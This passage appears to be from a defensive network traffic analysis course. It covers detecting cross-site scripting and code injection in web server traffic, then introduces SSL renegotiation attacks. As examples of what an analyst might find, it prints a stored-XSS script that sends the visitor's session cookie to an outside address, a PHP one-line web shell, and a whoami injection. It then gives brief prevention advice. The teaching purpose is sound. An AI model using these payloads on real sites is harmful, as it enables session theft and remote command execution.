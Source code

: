 ![HTTP GET request with cookie parameter, resulting in 404 error response.](LSIQZy6PqzIt.png)

Getting down to the root of where this code is originating can be somewhat tricky. However, suppose we had a user comment area on our web server. We might notice one of the comments looks like the following.

```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>

```

This would be successful cross-site scripting from the attacker, and as such we would want to remove this comment quickly, and even in most cases bring our server down to fix the issue before it persists. We might also notice in some cases, that an attacker might attempt to inject code into these fields like the following two examples.

In order for them to get command and control through PHP.

```php
<?php system($_GET['cmd']); ?>

```

Or to execute a single command with PHP:

```php
<?php echo `whoami` ?>

```

#### Preventing XSS and Code Injection

In order to prevent these threats after we detect them, we can do the following.

1. `Sanitize and handle user input in an acceptable manner.`

2. `Do not interpret user input as code.`


# SSL Renegotiation Attacks

**Related PCAP File(s)**:

- `SSL_renegotiation_edited.pcapng`

* * *

Although HTTP traffic is unencrypted, we sometimes will run into encrypted HTTPs traffic. As such, knowing the indicators and signs of malicious HTTPs traffic is crucial to our traffic analysis efforts.
